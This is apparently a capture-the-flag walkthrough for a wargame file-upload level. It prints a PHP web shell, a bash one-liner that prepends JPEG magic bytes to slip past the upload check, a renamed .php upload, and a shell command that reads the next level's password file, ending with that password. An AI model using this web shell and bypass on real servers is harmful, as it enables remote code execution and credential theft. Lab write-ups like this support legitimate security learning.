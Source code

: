 - In this level we are presented with a check that prevents us from uploading the PHP code directly
- We write the following payload for it:
```php
<?php echo shell_exec($_GET['e'].' 2>&1'); ?>
```
- Now we just need to append some magic header bytes in our PHP code using bash to fool the check present on the server side
```bash
(echo -n -e '\xff\xd8\xff\xee'; cat upload.php) > new_upload.php
```
- We simply select this payload in browser and change the value of the hidden random name in our page's HTML to the one with ```.php``` extension such that the browser can execute the PHP code
- Now once our payload is uploaded, we can now execute the PHP code with the ```e``` parameter
- We just send our query param as ```e=cat /etc/natas_webpass/natas14```
- We obtain the password, which is: z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ